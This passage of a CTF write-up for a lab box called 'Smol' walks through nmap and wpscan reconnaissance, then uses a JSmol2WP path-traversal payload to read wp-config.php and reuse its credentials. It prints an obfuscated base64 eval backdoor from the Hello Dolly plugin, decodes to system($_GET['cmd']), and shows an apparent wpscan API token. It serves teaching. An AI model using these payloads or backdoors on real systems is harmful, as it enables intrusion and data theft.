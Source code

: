 # Write-up: **Smol**
Smol is a medium-ranked CTF box that introduces us to vulnerable Wordpress plugins, highlighting the need for website owners to keep dependencies up-to-date and to consider the source and reputation of installed plugins. The vulnerable web front-end then allows the execution of code on the web server, allowing to obtian a foothold on the system. Ultimately, root access is obtained through a combination of poorly managed passwords and misconfigurations.

## Reconaissance
The first step is to scan the host for open ports and find out about services that are offered. With `nmap`, we scan the 1000 most popular ports.
```
nmap -sV smol.thm
```
As the result shows us, two ports are open, offering the service SSH and a webpage.
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

When we try to visit the website, we get redirected to `www.smol.thm`, which is unknown to our domain server. Subsequently, we add the domain to our `/etc/hosts` file, allowing us to open the page.

![Initial view of webpage](img/Smol-InitialWebpage.png)

As we can see on the bottom of the page, the website is powered by the Wordpress framework. Therefore we should definitely run `wpscan` on the blog. Registering on WPScan's [official webpage](https://wpscan.com/) allows you to additionally make use of API tokens, which enables `wpscan` to access the WordPress Vulnerability Database, basically allowing your scan to automatically detect vulnerable plugins and themes. With the free-plan, you get 25 tokens per day.
```
wpscan --url www.smol.thm --api-token WEHKBQUrGbrJWLv7F7yWCJoZkARqtYlh1DDnsZ46n6E
```
Among others, we are able to identify the follwing vulnerability.
```
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```
Following up the first link, we can see a proof of concept, allegedly allowing us to include files of the server into the rendered webpage.
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## Establish a Foothold
Executing the actual PoC (of course after having exchanged domain and port) already yields an interesting finding, since we can find the credentials of the MySQL user that is being used by Wordpress.
```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', -REDACTED- );
```
If the people that set up the server were cautious, they of course didn't reuse these credentials for an actual user of the Wordpress blog. But as Einstein indicated, we all do have not so bright moments, so it's definitely worth to check if we can login with the `wpuser` user. Since the login page is not visible on the home site, one can open the blog article about RCEs and try to comment under it, which redirects to the login. And in fact, we succesfully bypass the first line of security with the credentials that we have found.

We then proceed to the admin section of the blog by clicking on our profile picture on the top-right. There we can see that we do not have an administrator role, since for example we cannot see the user managament and plugins section. On the other hand, we do have some kind of editor rights, since we can maintain and therefore read a page that was written by the administrator, showing us a list of To-Dos.

![Internal wordpress page with webmaster's tasks](img/Smol-InternalPage.png)

Wait, hold up! The webmaster is talking about a backdoor in the "Hello Dolly" plugin? Wouldn't it be nice to inspect the content of this plugin, to see if a backdoor really does exist and how to make use of it... But since we're not administrators, we aren't able to manage the Wordpress plugins and read/modify their code. But we have already found a way for a LFI, we only need to know where plugins are located and how they are internally structured. Since Wordpress is a well-known and open-source framework, we can easily find out that plugins are located at `/wp-content/plugin/`. Digging a little deeper into "Hello Dolly", a minimalistic plugin for inserting little phrases into the webpage, we can also find out that the plugin is delivered as a single file, being named `hello.php`. Let's include this file, just as we did with `wp-config.php` in the reconaissance stage. In it, we find the following line of code in the function that is responsible of randomly selecting a phrase, i.e. that the function is run every time the plugin is invoked.
```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```
So a line of PHP is being added by the `eval` statement, that is obfuscated by being encoded in base64. Let's decode the line.
```
echo CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA= | base64 -d
```
Which yields the following result.
> if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
So there is actually backdoor implemented into the site. Now we 
